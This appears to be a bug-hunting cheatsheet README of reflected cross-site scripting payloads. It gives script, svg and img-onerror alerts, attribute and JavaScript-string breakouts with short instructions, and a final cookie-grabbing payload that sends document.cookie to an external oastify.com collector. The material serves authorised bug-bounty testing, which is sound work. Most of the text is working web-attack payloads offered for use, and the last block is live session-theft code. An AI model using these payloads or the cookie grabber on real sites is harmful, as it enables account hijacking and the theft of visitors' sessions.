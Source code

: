### Testing Alert
```js
<script>alert(1337)</script>
<svg/ onload=alert(1337)//
<Svg/OnLoad=(confirm)(1337)<!--
">cyborg71<script>alert(1337)</script>
<img src=x onerror=alert(1337)>
```
#### For testing.
```js
"><h1>cyborg.71</h1>
<script onclick="alert(1337)">
" onclick="alert(1337)
" autofocus="alert(1337)
"onmouseover="alert(1)
<a href="javascript:alert('XSS')">Click me</a>
```
### Reflected XSS into attribute with angle brackets HTML-encoded
Inject ```<xss123>'"``` and see if the angle ```<>``` brackets are encoded with ```&lt;``` and ```&gt;```.
  ![Screenshot from 2024-06-12 22-48-00](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/4bb3d36b-cef6-49ae-ab0d-a4c6ad9c8553)<br>
If this is the case, you should inject this payloads. 
```js
" onclick="alert(1337)
" autofocus="alert(1337)
" autofocus onfocus="alert(1337)
"onmouseover="alert(1)
```
### Reflected XSS into a JavaScript string with angle brackets HTML encoded
Inject ```<xss123>'"``` and see if your payload encoded in a javascript code.<br>
![Screenshot from 2024-06-13 00-19-30](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/9180969c-2299-4adf-9c4a-a05e97629938)<br>
In this case you should try this payload to braek the code to inject maliciuos payload.
```js
xss';alert(1);'xss
```
Finally the code will look like this after response.
![Screenshot from 2024-06-13 00-27-23](https://github.com/cyb0rg71/Bug-Hunting-Cheatsheet/assets/118939850/363ddd77-30a1-48bc-850a-f85b0b92e312)

#### For cookie grabbing.
```js
<script>document.location='https://r91uwnam29s3c1jdsyc8t7t34ualyfm4.oastify.com//'+document.cookie</script> 
```
